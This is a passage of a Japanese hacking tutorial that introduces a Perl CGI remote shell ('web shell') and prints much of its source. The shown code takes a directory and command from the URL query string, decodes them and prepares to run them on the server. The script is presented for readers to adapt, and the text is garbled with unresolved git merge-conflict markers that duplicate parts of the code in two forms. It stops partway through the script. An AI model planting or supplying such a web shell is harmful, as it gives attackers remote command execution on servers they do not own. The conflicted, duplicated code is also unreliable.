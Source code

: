 
　じゃぁ後は好きなだけ遊んでください。


<<<<<<< HEAD
■0x03.) perlでシェルを作って遊ぶ
=======
### 0x03 perlでシェルを作って遊ぶ
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　ここではPeerlを使ってリモートシェル用のCGIを作って遊びます。こちらの方
はスクラッチからコードしなくとも優秀なスクリプトが出回っております。後は
自分のニーズにhackしてください。

　気に入っているスクリプトを紹介致します（by がま）。

<<<<<<< HEAD
-----
$ownname="http://$ENV{'SERVER_NAME'}$ENV{'SCRIPT_NAME'}";

$ENV{'PATH'} = '/bin'
=======
\-\-\-\-\-
$ownname\="http://$ENV{'SERVER_NAME'}$ENV{'SCRIPT_NAME'}";

$ENV{'PATH'} \= '/bin'
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
. ':/usr/bin'
. ':/usr/ucb'
. ':/etc'
. ':/usr/etc'
. ':/usr/lib'
. ':/usr/local/bin'
. ':/usr/local/lib'
. ':/usr/local/sbin'
;

<<<<<<< HEAD
($dir,$cmd)=split('&',$ENV{'QUERY_STRING'});
$dir =~ s/dir=//;
$dir =~ s/%(..)/pack('c',hex($1))/ge;
$cmd =~ s/cmd=//;
$cmd =~ s/\+/ /g;
$cmd =~ s/%(..)/pack('c',hex($1))/ge;
$|=1;

print "Content-type: text/html\n\n";
print '<HTML><BODY>';
print "<PRE>\n";
chdir("$dir");
$wd=&pwd;
print "Curr Dir:$wd\n";
$cmdpr = $cmd;
$cmdpr =~ s/&/&/g;
$cmdpr =~ s/</</g;
$cmdpr =~ s/>/>/g;
print "\n<B>>$cmdpr</B>\n";
if ($cmd =~ /^cd(\s)*/ ) {
	unless (chdir($')) {
		print "cd $':not success.\n";
	}
	$dir=&pwd;
=======
($dir,$cmd)\=split('&',$ENV{'QUERY_STRING'});
$dir \=\~ s/dir\=//;
$dir \=\~ s/%(..)/pack('c',hex($1))/ge;
$cmd \=\~ s/cmd\=//;